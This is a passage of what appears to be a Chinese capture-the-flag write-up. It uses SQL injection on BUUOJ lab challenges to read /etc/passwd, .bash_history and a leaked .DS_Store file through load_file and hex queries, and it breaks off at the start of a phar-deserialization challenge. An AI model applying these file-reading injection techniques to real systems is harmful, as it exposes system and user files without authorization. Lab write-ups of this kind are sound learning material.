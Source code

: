 ```python

sql = "select concat(database(),',',version(),',',user())"
post(sql)
comment(getid())
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201459076.png)

读取 /etc/passwd

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201501054.png)

www 用户的 home 目录一般都是 /var/www, 而这里是 /home/www, 感觉不太对劲

尝试读取 /home/www/.bash_history

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201507658.png)

注意到 `.DS_Store`, 该文件是 macos 生成的隐藏文件, 可能会泄露当前目录的相关信息, 例如目录下所有文件的文件名

这里删除了 /var/www/html/ 下的 `.DS_Store`, 但是 /tmp/html 下的还在

首先利用 load_file + hex 读取该文件

```sql
select hex(load_file('/tmp/html/.DS_Store'))
```

然后本地再转成二进制文件

```sql
select unhex(load_file('d:/hex.txt')) into dumpfile 'd:/DS_Store'
```

最后用工具读取

 [https://github.com/gehaxelt/Python-dsstore](https://github.com/gehaxelt/Python-dsstore)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201526638.png)

读取 `flag_8946e1ff1ee3e40f.php` 得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201527927.png)

## [SWPUCTF 2018]SimplePHP

简单 phar 反序列化

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211618534.png)

查看文件处有文件读取

```
http://96c57946-ef6a-4e1b-8ad0-47294a76515a.node4.buuoj.cn:81/file.php?file=
```

file.php
